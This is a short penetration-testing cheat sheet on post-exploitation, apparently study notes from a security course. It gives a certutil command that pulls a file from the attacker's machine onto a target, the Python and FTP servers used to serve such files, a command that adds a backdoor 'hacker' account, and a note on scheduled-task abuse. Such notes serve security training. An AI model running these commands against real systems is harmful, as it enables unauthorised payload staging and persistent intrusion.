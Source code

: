 ## Post Exploitation
### File Transfers
- Certutil
	- certutil.exe -urlcache -f http://ipofmymachiine/file.txt file.txt
- HTTP
	- python -m SimpleHTTPServer 80
- Browser
	- Navigate directly to file
- FTP
	- python -m pyftpdlib 21 (from my machine)
	- ftp myIP (on the target machine)
- Linux
	- wget
- Metasploit
	- If you have a meterpreter shell you can use the upload/download feature

### Maintaining Access (Red Team)
- Add a user
	- net user hacker password 123 /add
- Scheduled Tasks
	- Run scheduleme
	- rub schtaskabuse

### Pivoting
https://academy.tcm-sec.com/courses/1152300/lectures/24781514

### Cleaning up
Always leave the machine how it was before.
